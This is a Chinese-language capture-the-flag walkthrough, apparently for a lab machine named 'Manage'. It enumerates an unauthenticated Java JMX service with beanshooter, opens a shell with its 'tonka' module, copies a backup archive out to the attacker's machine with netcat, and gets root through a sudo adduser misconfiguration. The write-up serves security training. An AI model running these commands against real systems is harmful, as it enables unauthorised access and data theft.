








## Manage
```
22/tcp
2222/tcp open  java-rmi Java RMI
| rmi-dumpregistry: 
|   jmxrmi
|     javax.management.remote.rmi.RMIServerImpl_Stub
|     @127.0.1.1:43543
|     extends
|       java.rmi.server.RemoteStub
|       extends
|_        java.rmi.server.RemoteObject
8080/tcp 
```
从 rmi-dumpregistry 成功地枚举出了 RMI 对象（如 jmxrmi）这一行为，就可以初步判断服务 没有启用访问控制（未绑定凭据）

Java JMX（Java Management Extensions）是 Java 提供的一种 系统管理和监控框架。

### 1.工具beanshooter
https://github.com/qtc-de/beanshooter是一个专门针对 Java JMX（Java Management Extensions）服务 的 枚举与攻击工具
```
$ git clone https://github.com/qtc-de/beanshooter  //发布的稳定版，通常会用 git 标签
$ cd beanshooter
$ mvn package //会生成一个terget目录
```
Maven 和 Java 的编译机制:
Maven 是 Java 的构建工具，它根据 pom.xml 配置文件，下载依赖并用 javac 编译 Java 源码。
编译结果放在 target 目录，一般是 .class 文件和打包好的 .jar
#### 在/target文件夹中已经构建了一个.jar文件。这个文件包含BeanShooter及其所有依赖项，并允许我们使用java运行该工具

使用它的枚举函数来查找公开的bean、用户以及服务是否存在受保护与否
```
$ cd  target
$ ls
beanshooter-4.1.0-jar-with-dependencies.jar

$ java -jar beanshooter-4.1.0-jar-with-dependencies.jar enum 10.129.234.57 2222
//运行 Beanshooter 工具的 enum（枚举）功能，对目标机器的 Java RMI 服务进行信息收集和枚举
```

```
$ java -jar beanshooter-4.1.0-jar-with-dependencies.jar tonka shell 10.129.234.57 2222
//Beanshooter 中的 Tonka 模块，执行 shell 命令交互
```


### 2.nc与备份存档
备份存档可执行

#### nc的操作
```
[1]本地开启侦听
$ nc -lvp 1234 > backup.tar.gz //把所有输入放入backup.tar.gz中
[2]在tomcat上，Netcat正向数据传输命令
[tomcat@10.129.234.57 /home/useradmin/backups]$ nc 10.10.14.35 1234 < backup.tar.gz //把本地的 backup.tar.gz 文件内容作为输入发送过去
[3]在本地上查找，解压
```


### 3.SSH 登录启用了双因素认证（2FA），在使用私钥验证后，还需要额外的验证码（如 TOTP）

复制粘贴了一个公钥


### 4.sudo配置漏洞

adduser 默认创建新用户

^[a-zA-Z0-9]+$：这是一个 正则表达式 —— 限制命令参数 只能是由字母或数字组成的字符串

从上文来看useradmin里面有个admin用户，以及挂有密码的

使用sudo创建一个名为admin的用户，系统将自动将他们添加到这个组并分配给他们它的权限

